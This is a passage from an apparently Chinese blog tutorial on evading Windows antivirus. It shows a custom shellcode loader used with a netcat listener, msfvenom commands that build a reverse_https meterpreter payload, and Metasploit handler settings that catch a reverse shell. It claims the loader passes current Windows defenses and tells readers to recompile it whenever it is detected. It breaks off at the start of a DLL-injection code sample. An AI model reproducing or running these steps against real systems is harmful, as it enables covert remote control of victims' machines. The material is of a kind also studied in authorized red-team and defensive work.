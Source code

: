 ![image.png](https://img-blog.csdnimg.cn/img_convert/24f9f5a33dd5ea4b99c593d5ac4e0f76.png#averageHue=#060504&clientId=ufbb5d8d0-1aae-4&from=paste&height=626&id=u128e8714&originHeight=563&originWidth=1197&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=166080&status=done&style=none&taskId=ub75dda6f-6491-4147-85ec-476b707c6aa&title=&width=1330.0000352329687)
然后监听设置的端口
```
nc -nvlp 1234
```
使用方法：
```
power.exe 服务器ip 端口 要加载的shellcode文件名
```
![image.png](https://img-blog.csdnimg.cn/img_convert/e7be68ca447f48984373eef1c7e3da44.png#averageHue=#131313&clientId=ufbb5d8d0-1aae-4&from=paste&height=152&id=ue56827f7&originHeight=137&originWidth=831&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=12190&status=done&style=none&taskId=u489688cc-6bde-41fe-9895-0d14604ef61&title=&width=923.3333577933141)
效果：
![image.png](https://img-blog.csdnimg.cn/img_convert/12d2a7caa38fc6500050781afb62670a.png#averageHue=#040303&clientId=ufbb5d8d0-1aae-4&from=paste&height=867&id=ua76009fc&originHeight=780&originWidth=1356&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=200458&status=done&style=none&taskId=u6ff03c11-439d-481a-8030-2860d70ca87&title=&width=1506.666706579704)
能动态和静态过最新的windows防火墙
文件被查杀要随便改一下源代码然后再编译一下就好了
![image.png](https://img-blog.csdnimg.cn/img_convert/359bb29b2025f25268e9a59398384ffa.png#averageHue=#181b1c&clientId=ufbb5d8d0-1aae-4&from=paste&height=508&id=ude2c9121&originHeight=457&originWidth=1770&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=61830&status=done&style=none&taskId=u366d2ecd-6c21-4767-8c38-963b28b61a4&title=&width=1966.6667187655428)

## https证书
如果要使用msfconsole，需要用到windows/x64/meterpreter/reverse_https模块，首先我们需要生成一个https证书
```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```
![image.png](https://img-blog.csdnimg.cn/img_convert/99d582dc4b1de7f2324a573d5e76f3ca.png#averageHue=#070605&clientId=ufbb5d8d0-1aae-4&from=paste&height=547&id=ube66945c&originHeight=492&originWidth=1616&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=137679&status=done&style=none&taskId=u9cd98d13-c745-4219-9977-6a76143df8c&title=&width=1795.5556031215351)
然后生成一个木马
```
msfvenom -p  windows/x64/meterpreter/reverse_https lhost=192.168.0.110 lport=1234 HandlerSSLCert=/home/kali/bypass/www.example.com.pem StagerVerifySSLCert=true -f raw > beacon.bin
```
![image.png](https://img-blog.csdnimg.cn/img_convert/d0576315c759787c684d7bd58c12d55f.png#averageHue=#070504&clientId=ufbb5d8d0-1aae-4&from=paste&height=208&id=u6c4e9357&originHeight=187&originWidth=1703&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=76730&status=done&style=none&taskId=u7b473c7b-4e53-4fe5-a1f2-13fdad588ad&title=&width=1892.222272348994)
打开msf
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.0.110
set lport 1234
set HandlerSSLCert /home/kali/bypass/www.example.com.pem
set StagerverifySSLCert true
run
```
回到靶机，获取程序
![image.png](https://img-blog.csdnimg.cn/img_convert/d01166b143c9060c2110f74df61ef900.png#averageHue=#151515&clientId=ufbb5d8d0-1aae-4&from=paste&height=220&id=u0fd378a0&originHeight=198&originWidth=1116&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=26944&status=done&style=none&taskId=ub812fa20-39cb-4ae1-a218-37135668993&title=&width=1240.000032848783)
然后得到shell
![image.png](https://img-blog.csdnimg.cn/img_convert/c979059922ce5ea0edb4eddb3828fcab.png#averageHue=#080605&clientId=ufbb5d8d0-1aae-4&from=paste&height=321&id=u4f5cdfff&originHeight=289&originWidth=1638&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=137244&status=done&style=none&taskId=u13f9d081-5388-4b7d-a27d-d7b43c597d7&title=&width=1820.0000482135363)
能动态和静态过最新的windows防火墙
# dll注入
一个常见的弹窗dll的c++代码：
```
#include <windows.h>

#pragma comment (lib, "user32.lib")

BOOL APIENTRY DLLMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){

    switch (ul_reason_for_call){
    case DLL_PROCESS_ATTACH:
```